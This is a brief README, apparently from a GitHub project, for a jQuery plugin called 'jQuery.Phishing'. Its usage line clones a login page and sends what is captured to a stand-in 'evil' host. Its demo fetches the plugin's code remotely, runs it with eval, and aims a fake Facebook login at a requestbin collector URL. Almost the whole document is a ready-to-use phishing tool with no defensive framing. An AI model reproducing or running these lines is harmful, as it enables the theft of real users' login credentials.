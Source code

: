 # jQuery.Phishing
## Usage
```javascript
$.phishing('http://wooyun.org/login','http://evil/receive')
```
## Demo
```javascript
$.get(`https://raw.githubusercontent.com/jackmasa/jQuery.Phishing/master/jQuery.Phishing.js …`,c=>{eval(c);$.phishing(`//fb.com`,`http://requestbin.herokuapp.com/1koaluq1 `)});
```
